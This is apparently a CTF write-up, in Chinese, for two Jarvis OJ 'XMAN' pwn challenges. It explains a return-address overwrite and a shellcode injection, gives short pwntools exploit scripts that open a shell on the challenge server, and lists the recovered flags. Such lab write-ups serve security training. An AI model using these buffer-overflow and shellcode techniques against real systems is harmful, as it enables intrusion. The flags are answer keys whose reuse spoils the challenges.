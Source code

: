    

* #### [XMAN]level0

  64位文件

  ![12](https://raw.githubusercontent.com/AiDaiP/images/master/Jarvis%20OJ/12.png)

  在read处溢出，调用callsystem

  buf大小为0x80，填充buf，覆盖rbp，改vulnerable_function的返回地址

  ```python
  from pwn import *
  r = remote('pwn2.jarvisoj.com', 9881)
  call = p64(0x400596)
  payload = 'a'*0x88 + call
  r.sendline(payload)
  r.interactive()
  ```

  ![13](https://raw.githubusercontent.com/AiDaiP/images/master/Jarvis%20OJ/13.png)

  `CTF{713ca3944e92180e0ef03171981dcd41}`

  

* #### [XMAN]level1

  ![14](https://raw.githubusercontent.com/AiDaiP/images/master/Jarvis%20OJ/14.png)

  在read处溢出，前面输出buf的地址

  没有system函数

  ![15](https://raw.githubusercontent.com/AiDaiP/images/master/Jarvis%20OJ/15.png)

  没有开启NX，可以用shellcode

  buf的大小为0x88，输入shellcode，填充buf，覆盖ebp，把返回地址改为buf的地址

  ```python
  from pwn import *
  r = remote('pwn2.jarvisoj.com', 9877)
  context(log_level = 'debug', arch = 'i386', os = 'linux')
  shellcode = asm(shellcraft.sh())
  a = r.recvline()[14: -2]
  buf = int(a,16)
  payload = shellcode + 'a'*(0x88+0x4-len(shellcode)) + p32(buf)
  r.sendline(payload)
  r.interactive()
  
  ```

  ![16](https://raw.githubusercontent.com/AiDaiP/images/master/Jarvis%20OJ/16.png)

  `CTF{82c2aa534a9dede9c3a0045d0fec8617}`

  